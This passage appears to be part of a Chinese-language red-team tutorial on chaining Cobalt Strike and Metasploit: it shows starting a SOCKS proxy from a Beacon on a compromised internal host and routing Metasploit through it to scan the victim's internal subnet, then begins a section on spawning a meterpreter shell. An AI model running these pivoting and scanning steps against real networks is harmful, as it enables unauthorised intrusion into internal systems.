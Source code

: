 为什么需要 CS 和 MSF 的联动呢？主要是两个框架的侧重点不一样，尽管我们有了 Beacon，但是我们有时候还需要借助 MSF 的 scanner、exploit 这些功能模块，而 CS 更侧重后渗透、团队合作一些。


MSF 就是本地 Kali 自带的 msf5：

![title](https://leanote.com/api/file/getImage?fileId=5e17edefab644158950054a2)

首先，到已控目标内网机器的 Beacon 下把 socks 起起来：

```
beacon> getuid
beacon> socks 1080
```

![title](https://leanote.com/api/file/getImage?fileId=5e17eed8ab64415a970054cb)

然后，通过 `View` → `Proxy Pivots`，复制生成的 MSF 代理链接。

![title](https://leanote.com/api/file/getImage?fileId=5e17efaeab644158950054f7)


![title](https://leanote.com/api/file/getImage?fileId=5e17f02bab6441589500550d)

本地启动 MSF，挂着上面生成的代理链接，即可直接对目标内网进行各种探测：

```
msf > setg Proxies socks4:1xx.1xx.57.70:1080    意思就是让本地的 msf 走上面 cs 的 socks 代理
msf > setg ReverseAllowProxy true               建双向通道
msf > use auxiliary/scanner/smb/smb_version     拿着 msf 中的各类探测模块对目标内网进行正常探测即可,比如,识别目标内网所有 Windows 机器的详细系统版本,机器名和所在域
msf > set rhosts 192.168.56.0/24                指定 CIDR 格式的目标内网段，掩码可根据实际情况给的大一点,比如,0/20,0/16...
msf > set threads 1                             线程不宜给的太大，可根据目标实际情况,控制在10以内
msf > run
```

![title](https://leanote.com/api/file/getImage?fileId=5e17fe0cab644158950057c1)

根据实际情况增强或削弱掩码，从缩小或扩大扫描的子网范围。

总之，这种方法是你先有一个 CS Beacon shell，然后通过 socks 代理，把受害主机的流量代理到本地的 msf，然后本地 msf 就可以进行一些内网探测或漏洞利用。

# 0x03 尝试借助 CS 的外部 tcp 监听器通过 ssh 隧道直接派生一个 meterpreter 的 shell 到本地


**铺垫知识：**

铺垫知识很长，但只有先了解铺垫知识，后面的操作才会更好理解。

1、 CS Foreign Listener
在这里要借助 CS 的 Foreign 监听器。如图是 CS 3.14 的监听器截图（CS 4.0的监听器类别有了较大改变）：

![title](https://leanote.com/api/file/getImage?fileId=5e180660ab64415a97005979)


